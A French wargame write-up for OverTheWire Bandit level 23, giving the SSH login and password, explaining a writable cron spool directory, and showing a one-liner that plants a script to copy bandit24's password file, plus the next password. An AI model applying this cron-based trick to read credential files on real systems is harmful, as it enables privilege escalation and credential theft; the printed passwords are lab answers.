

## Connexion (mot de passe gKXDTAXnIz3OBxiPjRZ2uqutUlPZrBsw)
```
ssh -p 2220 bandit23@bandit.labs.overthewire.org
```

## Recherche du mot de passe
Le script exécute et ensuite supprime les fichiers exécutables sous /var/spool/banditXX/foo

Sous /var/spool on a un dossier bandit24/foo, les droits sont drwxrwx-wx, donc bandit23 peut écrire un script sous bandit24/foo. C'est la cronjob du username bandit24 qui exécutera les scripts présent sous bandit24/foo. Or il faut mettre un script qui récupère /etc/bandit_pass/bandit24 dans bandit24/foo
```
TMP_DIR=$(mktemp -d) && echo "cat /etc/bandit_pass/bandit24 > ${TMP_DIR}/password" > ${TMP_DIR}/getpass.sh && chmod 777 ${TMP_DIR} && chmod 777 ${TMP_DIR}/getpass.sh && touch ${TMP_DIR}/password && chmod 777 ${TMP_DIR}/password && mv ${TMP_DIR}/getpass.sh /var/spool/bandit24/foo/getpass.sh && sleep 60 && cat ${TMP_DIR}/password
```
*Il y a un sleep de 60 secondes, il faut attendre car c'est la fréquence du cronjob*
## Prochain mot de passe
```
hVQMk3lJNsmQ7VF3ubyrNNBom7BOgVXv
```